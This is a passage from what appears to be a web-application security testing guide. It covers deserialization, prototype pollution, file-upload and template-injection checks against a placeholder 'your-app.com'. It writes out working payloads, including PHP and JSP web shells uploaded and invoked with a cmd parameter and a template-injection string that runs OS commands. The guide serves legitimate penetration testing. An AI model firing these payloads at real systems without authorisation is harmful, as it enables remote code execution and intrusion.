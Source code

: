 #### Deserialization Testing

Test for unsafe deserialization:

```bash
# Java deserialization (base64 encoded)
curl -X POST "https://your-app.com/api/data" \
  -H "Content-Type: application/json" \
  -d '{"data":"rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABdAAEdGVzdHQABHRlc3R4"}'

# PHP deserialization
curl -X POST "https://your-app.com/api/session" \
  -d "data=O:8:\"stdClass\":1:{s:4:\"test\";s:4:\"test\";}"

# JSON prototype pollution
curl -X POST "https://your-app.com/api/config" \
  -H "Content-Type: application/json" \
  -d '{"__proto__":{"isAdmin":true}}'
```

#### File Upload Testing

Test file upload functionality for RCE:

```bash
# PHP web shell
curl -X POST "https://your-app.com/upload" \
  -F "file=@shell.php" \
  -F "file=<?php system(\$_GET['cmd']); ?>"

# JSP web shell
curl -X POST "https://your-app.com/upload" \
  -F "file=@shell.jsp" \
  -F "file=<% Runtime.getRuntime().exec(request.getParameter(\"cmd\")); %>"

# Test uploaded file
curl "https://your-app.com/uploads/shell.php?cmd=ls"
```

**File Upload Test Cases:**
- PHP files (`.php`, `.phtml`)
- JSP files (`.jsp`, `.jspx`)
- ASP files (`.asp`, `.aspx`)
- Python files (`.py`)
- Shell scripts (`.sh`, `.bat`)
- Executable files (`.exe`, `.bin`)

#### Template Injection Testing

Test template engines for code injection:

```bash
# Test mathematical expressions
curl -X POST "https://your-app.com/api/render" \
  -d "template={{7*7}}"

# Test config exposure
curl -X POST "https://your-app.com/api/email" \
  -d "body={{config}}"

# Test command execution
curl -X POST "https://your-app.com/api/report" \
  -d "content={{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}"
```
